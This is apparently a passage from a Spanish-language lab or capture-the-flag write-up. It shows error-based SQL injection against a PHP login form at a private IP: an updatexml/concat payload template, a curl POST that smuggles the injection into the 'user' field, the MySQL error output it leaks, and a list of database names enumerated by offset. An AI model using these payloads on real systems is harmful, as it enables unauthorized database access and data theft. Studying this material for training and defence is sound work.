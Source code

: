 concat(0x7e, ..., 0x7e): junta la salida de la consulta, en este caso el nombre de la base de datos entre ~ para que sea fácil de ver.

SELECT schema_name FROM information_schema.schemata LIMIT 0,1: saca el primer nombre de base de datos, aquí itineraremos 0,1...1,1...2,1...

Así que vamos a utilizar:

```
' AND updatexml(1, concat(0x7e, (NUESTRA CONSULTA SQL), 0x7e), 1) -- -"
```
la consulta para ver el nombre de la base de datos "SELECT schema_name FROM information_schema.schemata LIMIT 0,1" :

```bash
curl -X POST http://192.168.1.45/login.php \                                                                                                                                                               
  -d "user=' AND updatexml(1, concat(0x7e, (SELECT schema_name FROM information_schema.schemata LIMIT 0,1), 0x7e), 1) -- -" \
  -d "pass=x"

```
```
<br />
<b>Fatal error</b>:  Uncaught mysqli_sql_exception: XPATH syntax error: '~information_schema~' in /var/www/html/login.php:22
Stack trace:
#0 /var/www/html/login.php(22): mysqli-&gt;query()
#1 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>22</b><br />
```

primera base de datos:
```
'~information_schema~'
```
con 1,1
```
'~sion~'
```
con 2,1
```
'~mysql~'
```
con 3,1
```
'~performance_schema~'
```
con 4,1
```
'~Nebuchadnezzar~'
```
con 5,1
```
'~sys~'
```

